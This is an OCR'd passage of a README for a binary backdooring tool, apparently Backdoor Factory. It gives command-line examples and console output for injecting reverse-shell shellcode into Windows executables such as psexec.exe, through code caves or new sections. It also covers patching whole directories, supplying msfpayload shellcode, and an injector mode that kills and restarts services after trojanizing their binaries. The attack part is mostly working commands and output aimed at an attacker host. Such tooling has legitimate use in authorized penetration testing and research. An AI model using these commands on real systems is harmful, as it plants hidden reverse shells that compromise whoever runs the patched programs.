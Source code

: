     9. Section Name: .data; Section Begin: 0x2e400 End: 0x30600; Cave begin: 0x2f571 End: 0x2f7a0; Cave Size: 559
    10. Section Name: .rsrc; Section Begin: 0x30600 End: 0x5f200; Cave begin: 0x5b239 End: 0x5b468; Cave Size: 559
    **************************************************
    [!] Enter your selection: 5
    Using selection: 5
    [*] Changing Section Flags
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch an exe/dll by adding a code section:

    ./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 
    [*] In the backdoor module
    [*] Checking if binary is supported
    [*] Gathering file info
    [*] Reading win32 entry instructions
    [*] Looking for and setting selected shellcode
    [*] Creating win32 resume execution stub
    [*] Creating Code Cave
    - Adding a new section to the exe/dll for shellcode injection
    [*] Patching initial entry instructions
    [*] Creating win32 resume execution stub
    [*] Overwriting certificate table pointer
    [*] psexec.exe backdooring complete
    File psexec.exe is in the 'backdoored' directory

---

###Patch a directory of exes:
    ./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a
    ...output too long for README...

---

###User supplied shellcode:
    msfpayload windows/exec CMD='calc.exe' R > calc.bin
    ./backdoor.py -f psexec.exe -s user_supplied_shellcode -U calc.bin
    This will pop calc.exe on a target windows workstation. So 1337. Much pwn. Wow.

---

###Hunt and backdoor: Injector | Windows Only
    The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
    Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

    ./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
